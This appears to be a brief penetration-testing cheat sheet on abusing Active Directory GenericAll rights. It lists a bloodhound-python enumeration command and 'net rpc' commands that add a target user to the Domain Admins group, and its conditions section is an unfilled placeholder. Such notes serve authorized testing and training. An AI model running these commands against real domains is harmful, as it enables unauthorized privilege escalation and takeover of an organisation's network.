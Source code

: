 # Unix Shell

## 01 - Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

```
$ bloodhound-python -u <username> -p <password> -ns <domain_controller_IP> -d <domain>.<tld> -c All
```

## 02 - Exploit

```
rpcclient $>
```

```
$ net <ads | rpc> group members "Domain Admins" -U <domain>/"<target_username>%<password>" -S <IP>

$ net rpc group addmem "Domain Admins" "<target_username>" -U <domain>/"<target_username>%<password>" -S <IP>
```


---
## References

### Hacking Articles

- [Hacking Articles: Abusing AD-DACL - Generic ALL Permissions](https://www.hackingarticles.in/abusing-ad-dacl-generic-all-permissions/)